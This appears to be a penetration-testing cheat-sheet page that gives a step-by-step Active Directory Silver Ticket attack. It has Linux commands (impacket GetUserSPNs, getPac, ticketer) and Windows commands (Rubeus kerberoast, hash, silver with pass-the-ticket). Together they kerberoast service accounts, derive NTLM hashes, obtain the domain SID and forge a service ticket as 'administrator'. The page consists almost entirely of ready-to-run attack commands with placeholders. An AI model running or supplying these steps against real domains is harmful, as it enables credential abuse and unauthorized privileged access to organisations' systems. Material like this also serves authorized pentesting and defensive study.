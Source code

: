 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["silver ticket", "rubeus", "active directory", "ad", "domain controller", "Windows", "GetUserSPNs"]
---
```


### Silver Ticket Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get service principle name (SPN)

<div>

```console
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -request -k
```

```console
# If NTLM auth is disabled
sudo ntpdate -s <DC> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-host <DC> -request -k
```

</div>

#### 2. Generate NTLM

<div>

```console
iconv -f ASCII -t UTF-16LE <(printf '<PASSWORD>') | openssl dgst -md4
```

</div>

#### 3. Get domain SID

<div>

```console
sudo ntpdate -s <DC> && impacket-getPac -targetUser administrator '<DOMAIN>/<USER>:<PASSWORD>'
```

</div>

#### 4. Generate Silver Ticket

<div>

```console
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn <SPN> administrator
```

</div>

#### 5. Import ticket

<div>

```console
export KRB5CCNAME=administrator.ccache
```

</div>

#### 6. Check

<div>

```console
klist
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get service principle name (SPN)

<div>

```console
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>' /nowrap
```

</div>

#### 2. Generate NTLM

<div>

```console
.\rubeus.exe hash /password:'<PASSWORD>'
```

</div>

#### 3. Get domain SID

#### 3a. Locally

<div>

```console
import-module activedirectory
```

```console
Get-ADDomain | fl DomainSID
```

</div>

#### 3b. Remotely

<div>

```console
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Driectory Lightweight Directory Services'
```

```console
# Bind > Bind with credentials
ldp.exe
```

```console
# Browse > Search
BaseDN: DC=<EXAMPLE>,DC=<COM>
Filter: (objectclass=User)
```

</div>

#### 4. Generate silver ticket

<div>

```console
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:<SPN> /nowrap /ptt
```

</div>

#### 5. Check

<div>

```console
klist
```

</div>

{{< /tabcontent >}}


<br>